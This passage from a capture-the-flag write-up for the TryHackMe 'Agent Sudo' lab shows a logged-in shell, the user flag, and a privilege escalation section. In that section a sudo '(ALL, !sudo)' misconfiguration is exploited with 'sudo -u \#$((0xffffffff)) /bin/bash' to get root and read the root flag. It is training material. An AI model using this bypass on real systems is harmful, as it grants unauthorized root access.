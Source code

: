 ```
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Mar 14 13:07:15 UTC 2023

  System load:  0.0               Processes:           93
  Usage of /:   39.7% of 9.78GB   Users logged in:     0
  Memory usage: 15%               IP address for eth0: 10.10.105.30
  Swap usage:   0%


75 packages can be updated.
33 updates are security updates.


Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ cat user_flag.txt 
```
10. what is the incident of the photo called?

We can download the phtoto by executing `scp james@$IP:Alien_autospy.jpg /path/to/destination` on our machine. Now we can do a reverse google image search to find out more...

### privileg escalation

The first step in escalating priviligeses is always figuring out who you are and what privileges you have. We do this by running `sudo -l` to get an idea of where we could go. This tells us, that the user has '(ALL, !sudo)' permissions. Do a quick google search, to find the CVE to answer the first question in this section. Then we will apply the exploit we found:

```
ames@agent-sudo:~$ sudo -u \#$((0xffffffff)) /bin/bash
root@agent-sudo:~# whoami
root
root@agent-sudo:~# cat /root/root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53#################0c062

By,
DesKel a.k.a Agent R

```


